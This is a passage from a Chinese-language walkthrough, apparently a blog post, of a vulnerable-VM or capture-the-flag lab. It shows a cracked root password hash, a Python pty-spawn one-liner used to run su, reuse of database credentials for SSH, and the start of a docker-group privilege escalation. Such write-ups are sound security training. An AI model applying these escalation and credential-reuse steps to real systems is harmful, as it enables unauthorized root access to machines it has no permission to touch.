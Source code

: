 得到密码：john

```
root@kali:~# cat root.out
$6$qoj6/JJi$FQe/BZlfZV9VX8m0i25Suih5vi1S//OVNpd.PvEVYcL1bWSrF3XTVTF91n60yUuUMUcP65EgT8HfjLyjGHova/:john
```

于是我们su root，但是发现：

```
su root
su: must be run from a terminal
```

所以我们用python伪造一个终端，然后来su root:

```
python -c "import pty;pty.spawn('/bin/bash');"
```

![818602_GFGWBKCNDU8JZEH](/blog.github.io/images/818602_GFGWBKCNDU8JZEH.png)
然后拿到了flag:

```
root@1afdd1f6b82c:/var/www/html# cd
cd
root@1afdd1f6b82c:~# ls
ls
flag
root@1afdd1f6b82c:~# cat flag
cat flag
Life consists of details..
```

### 横向渗透

很明显这不是真正的flag，我们刚才还得到了一个数据库密码，所以我们登录看看：
![818602_2QF62MW9W7659XG](/blog.github.io/images/818602_2QF62MW9W7659XG.png)
我们这里发现一个用户名和密码，之前扫描端口是发现一个22端口，所以这个可能是ssh的登录信息，这个密码md5解密出来后是123456；
我们登录试试：
![818602_APP4J4WFDRXJ39Y](/blog.github.io/images/818602_APP4J4WFDRXJ39Y.png)
登录成功，但是我们发现权限还是低，所以这里又要提权....

### 提取2

我们看这个用户名特别像在docker里面，查看一下：

```
hummingbirdscyber@vulnvm:~$ id
uid=1000(hummingbirdscyber) gid=1000(hummingbirdscyber) groups=1000(hummingbirdscyber),4(adm),24(cdrom),30(dip),46(plugdev),113(lpadmin),128(sambashare),129(docker)
```

确实是，因为docker权限就能读到/root中的文件了，所以可以利用docker run的-v参数，将/root挂载到容器中：
